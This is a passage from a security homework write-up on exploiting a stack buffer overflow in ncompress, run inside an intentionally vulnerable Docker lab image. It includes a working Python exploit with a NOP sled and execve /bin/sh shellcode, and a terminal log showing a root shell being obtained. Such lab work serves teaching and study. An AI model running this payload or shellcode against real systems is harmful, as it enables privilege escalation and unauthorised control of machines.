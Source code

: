 So adding it all together:
__1052 (buffer) + 12 (registers) + 8 (saved `ebp` + return address) = 1072 bytes__.
This is another way to confirm that the correct offset for controlling the return address is __1072__ bytes.

## Writing the exploit

Following the lecture and with the address we found `0xffff1dc0` we can write `exploit.py`:

``` python3
#!/usr/bin/env python3

import sys
import struct

payload = b""
# program crashes at 1052!!!!
payload += b"B" * 1068
payload += struct.pack("<I", 0xffff1cd0 + 21000)
payload += b"\x90" * 42000
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"  # Shellcode

sys.stdout.buffer.write(payload)
```

Running the exploit(successful invocation):
``` bash
ilias@ilias-PC:~/Documents/Github/homework0-security$ docker run --rm --privileged -v `pwd`/exploit.py:/exploit.py -it ethan42/ncompress:vulnerable
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

ubuntu@3e5ec9e3ac32:~$ echo hello | ncompress
��hʰa�Fubuntu@3e5ec9e3ac32:~$ python3 /exploit.py > /tmp/payload
ubuntu@3e5ec9e3ac32:~$ whoami
ubuntu
ubuntu@3e5ec9e3ac32:~$ ncompress `cat /tmp/payload`
BBBBBBBBBBBBBBBBBBBBBBBBBB...BBBBBB���������������������������������������������������������...(more characters like this appear but i removed them cause the file was huge )...�����1�Ph//shh/bin����°
                                                                                1�@̀: File name too long
# whoami
root
# 
```
